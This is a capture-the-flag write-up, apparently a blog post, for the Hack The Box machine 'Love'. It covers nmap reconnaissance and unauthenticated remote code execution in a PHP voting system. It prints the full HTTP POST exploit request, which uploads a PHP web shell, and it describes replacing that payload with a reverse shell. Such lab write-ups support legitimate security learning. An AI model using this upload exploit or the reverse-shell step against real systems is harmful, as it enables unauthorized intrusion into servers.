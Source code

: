 ```yaml
---
title: Hack The Box: Love
permalink: /HTB/Love
---
```

# Love Writeup 
Love is an easy level box on HackTheBox and took quite some time for me to solve as it was the second box that I have tried to solve. It was pretty interesting to solve and I learned some new exploit methods that I could try to use later.

# Walkthrough
First I performed an nmap scan using `nmap -p- <box ip>`. This first identifies the ports in use. You can follow this up with `nmap -sV -sC -A --script=vuln <box ip> -p x,y,z > file.txt` to get a more indepth scan of those running ports and the system itself, but I was too lazy to do that. This second command will also write the results of the scan to a `file.txt` in your current directory so you could reference the scan again later, if necessary. The result of my initial nmap scan showed me that http was running:
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(1).png?raw=true)  
<br />
<br />
Accessing the website I notice that it's titled "Voting System using PHP", so I try to find out if theres an existing exploit for it.
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(2).png?raw=true)
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(3).png?raw=true)
<br />
<br />
Accessing the exploit-db link shows an exploit that I can use. Based on the title, it's an exploit for unauthenticated remote code execution, meaning that if it works, I can execute code on the web server without needed any sort of credentials. Further explanation on the vulnerability can be found at:  https://www.cybersecurity-help.cz/vdb/SB2021050511. According to this resource, Unauthenticated RCE is achieved through uploading php files that will be run by the server and stored at the `/images/`directory. The exploit is a in the form of a HTTP POST request
```markdown
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

Reading this post request, if I change the php code being used as the payload (near the bottom, between the angle brackets), I could potentially send a php code for a reverse shell. I decided to use  https://www.revshells.com to generate a PHP Ivan Sincek reverse shell under the IP of my machine and port 4444 (personal preference). I copy and pasted the shell generated from the site and replaced the payload. After sending the post request in Burp, I checked to see it worked.
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(5).png?raw=true)
![Image](https://github.com/susMdT/nigerald.github.io/blob/gh-pages/images/love%20(7).png?raw=true)
<br />
Note that I replaced the `//` in the burp picture with the Ivan Sincek php code. And we can see that it worked. All we have to do now is set up a listener on port 4444 and click the the link to our php code in the `/images/` directory.
